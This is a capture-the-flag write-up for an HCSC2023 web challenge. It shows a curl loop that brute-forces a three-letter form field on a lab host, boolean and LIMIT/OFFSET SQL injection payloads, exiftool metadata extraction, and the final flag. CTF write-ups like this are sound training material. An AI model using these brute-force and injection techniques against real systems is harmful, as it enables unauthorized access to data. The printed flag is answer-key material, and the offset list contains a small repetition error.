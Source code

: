 # Checking the site

Visiting the site reveals the following form.

![](screenshots/1.png)

# Form

Sending the form with the default `Warner` reveals an image.

![](workdir/134357887.png)

# Brute forcing

Notice that the form gives result after 3 letters and case insensitive. This can be easily bruteforced.

```bash
for x in {a..z}; do for y in {a..z}; do for z in {a..z}; do curl -d "felado=$x$y$z" -X POST http://10.10.8.11:8666/ 2> /dev/null | grep img; done; done; done
```
![](screenshots/3.png)

# SQLi

Alternatively notice that the form also vulnerable to SQL injects. Just enter a `"`, like below. The former gives the Warner Bros letter, the latter not.

```
%' AND 1=1 #
%' AND 1=2 #
```

The images can be gathered 1 by 1.

```
' LIMIT 1 OFFSET 0 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 3 #
```

There are no more images left.

# Flag image

On the image with Zabos Csokolade, they hand over the flag (`flag-et szeretnénk átnyújtani`), but there is no flag visible.

![](workdir/477574637.png)

# Metadata

The flag is in the `Artist` metadata.

```bash
exiftool 477574637.png
```

![](screenshots/2.png)


# Flag
`HCSC2023{D1ana_I_am_crazy_l0ving_y0u}`